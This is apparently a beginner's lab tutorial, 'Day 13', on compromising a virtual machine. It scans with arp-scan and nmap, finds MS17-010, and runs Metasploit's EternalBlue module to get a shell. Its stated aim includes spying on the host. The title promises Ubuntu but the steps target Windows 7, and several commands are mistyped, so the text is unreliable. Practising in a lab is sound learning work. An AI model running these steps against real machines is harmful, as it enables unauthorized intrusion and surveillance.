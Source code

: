 # ♦ Day 13
</br>
</br>

## ◙ ***Getting into an UBUNTU***
 </br>
 
# ♦ Getting into an UBUNTU : 
   ⇨ In this session we will be learning how to get into an ubuntu device and can collect data or spying onto the host pc, for this we will be using an Ubuntu Virtual device in our local nettwork(Virtual Machine). 
   </br>
   </br>
### ◙ Step-By-Step Guide 

### • 1. Reconnaissance : First of all we will be checking our local network if there arne any other devices connected or not (Note: for this to work in VM make sure both the devices are in same network settings preferrably "NAT Network" </br>
For scanning our local network we will be using ***arp scan*** by using following commands:

    sudo arp-scan -l -I eth1

After this we have to check which one of the device is tht we are looking for so for that we will use nmap to identify operating systems of all the devices individaually by using:

sudo nmap -O >Ip add<
• 2. Search For Vulnerability : Now we will be searching for the vulnerabilities of the ip we confirmed by doing nmap scans now for vulnerability searching we will be using the following command
namp -Pn -sV --script vuln -oN vuln-win7-nmap.txt >IP add<
As we can see from above report tht there is a vulnerability availabe by the name "ms17-010".

• 3. Now we would like to get some details on the this Vulnerability, for that we will be using "Searchsploit" :
searchexploit ms17-010
As we acan see there are 6 exploits for this vulnerability, we will be using the one which can be done (Metasploit) cuz it most efficient and easy to do

• 4. METASPLOIT : The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.
• Now to acess metasploit we have to type a command

msfconsole
• After getting into msfconsole we have to search for the vulnerability "ms17-010"

• Now select the 1st one with the name "Eternalblue" by using command "use 0"

use 0
• 5. Setting up Msfconsole :
• Now we have to set up our msfconsole by seeing all the options that wre neede to be filled by watching them carefully "Show options"

show options
now as we can see above we have to fill LPORT, LHOST, RHOSTS & RPORT by using :

set RHOSTS >The Recivers Ip<
set LHOST >The Linux Ip<
set RPORT >The Reciving Port<
set LPORT >The Listening Port<
⇨ After setting all tht we just simply have to Use "exploit" command

 exploit
• Now we have successfully gained the access of the Windows Machine, now we can use "help " command to get all the details of what can we do in the system
